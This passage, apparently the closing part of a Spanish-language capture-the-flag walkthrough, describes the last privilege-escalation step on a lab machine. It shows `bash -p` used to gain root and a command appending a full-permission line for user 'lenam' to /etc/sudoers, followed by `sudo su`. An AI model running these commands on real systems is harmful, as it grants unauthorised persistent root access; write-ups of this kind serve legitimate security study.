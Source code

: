 para escalar finalmente a root ejecutamos `bash -p`, luego hago que el user `lenam` pueda ejecutar cualquier comando como `root`

```ruby
echo 'lenam ALL=(ALL) ALL' >> /etc/sudoers
```
volvemos al user `lenam` con un `exit` y escalamos nuevamente a `root` con un >>> `sudo su`

![image](https://github.com/user-attachments/assets/f3c6aa6f-5dc7-4031-8056-3e2cc8bac738)

`ROOT`















